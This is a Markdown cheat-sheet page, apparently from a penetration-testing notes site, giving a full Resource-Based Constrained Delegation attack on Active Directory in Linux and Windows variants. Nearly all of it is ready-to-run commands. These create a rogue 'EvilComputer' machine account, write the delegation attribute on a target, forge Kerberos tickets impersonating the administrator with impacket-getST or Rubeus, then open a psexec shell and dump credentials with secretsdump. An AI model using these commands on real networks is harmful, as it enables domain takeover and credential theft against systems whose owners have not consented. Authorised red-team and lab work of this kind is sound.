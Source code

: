 ```yaml
---
title: "RBCD Attack"
date: 2024-7-30
tags: ["GenericAll", "active driectory", "ad", "Windows", "rbcd", "resource-based constrained delegation", "s4u", "impersonate"]
---
```


### RBCD Attack

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 0. Check machine account quota

```console
nxc ldap <TARGET> -u <USER> -p '<PASSWORD>' -M MAQ
```

#### 1. Add a fake computer

```console
impacket-addcomputer -computer-name 'EvilComputer' -computer-pass '<COMPUTER_PASSWORD>' -dc-ip <TARGET> '<DOMAIN>/<USER>:<PASSWORD>'
```

#### 2. Rbcd attack

```console
impacket-rbcd -delegate-to '<TARGET_COMPUTER>$' -delegate-from 'EvilComputer$' -dc-ip <DC> -action 'write' '<DOMAIN>/<USER>:<PASSWORD>'
```

#### 3. Impersonate

```console
sudo ntpdate -s <DC> && impacket-getST -spn cifs/<TARGET_DOMAIN> -impersonate administrator -dc-ip <DC> '<DOMAIN>/EvilComputer:<COMPUTER_PASSWORD>'
```

#### 4. Import ticket

```console
export KRB5CCNAME=administrator@cifs_<TARGET_DOMAIN>@<DOMAIN>.ccache
```

#### 5. Post-Attack

```console
# Remote
sudo ntpdate -s <DC> && impacket-psexec <DOMAIN>/administrator@<TARGET_DOMAIN> -k -no-pass
```

```console
# Or secretsdump
impacket-secretsdump administrator@<TARGET_DOMAIN> -k -no-pass -just-dc-user Administrator
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Import Modules

```console
. .\PowerView.ps1
```

```console
. .\Powermad.ps1
```

#### 2. Check machine account quota

```console
Get-DomainObject -Identity 'DC=<EXAMPLE>,DC=<COM>' | select ms-ds-machineaccountquota
```

#### 3. Create new computer account

```console
New-MachineAccount -MachineAccount EvilComputer -Password $(ConvertTo-SecureString '<COMPUTER_PASSWORD>' -AsPlainText -Force)
```

<small>*Ref: [Powermad.ps1](https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1)*</small>

#### 4. RBCD Attack

```console
$fakesid = Get-DomainComputer EvilComputer | select -expand objectsid
```

```console
$fakesid
```

```console
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($fakesid))"
```

```console
$SDBytes = New-Object byte[] ($SD.BinaryLength)
```

```console
$SD.GetBinaryForm($SDBytes, 0)
```

```console
Get-DomainComputer TARGET_COMPUTER$ | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

#### 5. Check if SecurityIdentifier is now fakesid 

```console
$RawBytes = Get-DomainComputer TARGET_COMPUTER -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
```

```console
$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0
```

```console
$Descriptor.DiscretionaryAcl
```

#### 6. Impersonate

```console
.\rubeus.exe hash /password:'<COMPUTER_PASSWORD>' /user:EvilComputer /domain:<DOMAIN>
```

```console
.\rubeus.exe s4u /user:'EvilComputer$' /rc4:<HASH> /impersonateuser:administrator /msdsspn:cifs/<TARGET_DOMAIN> /ptt /nowrap
```

#### 7. Convert to ccache format

```console
python3 rubeustoccache.py <BASE64_TICKET> secrets.kirbi secrets.ccache
```

```console
export KRB5CCNAME=secrets.ccache
```

<small>*Ref: [RubeusToCcache](https://github.com/SolomonSklash/RubeusToCcache)*</small>

#### 8. Post-Attack

```console
# Remote
sudo ntpdate -s <DC> && impacket-psexec <DOMAIN>/administrator@<TARGET_DOMAIN> -k -no-pass
```

```console
# Or secretsdump
impacket-secretsdump administrator@<TARGET_DOMAIN> -k -no-pass -just-dc-user Administrator
```

{{< /tabcontent >}}
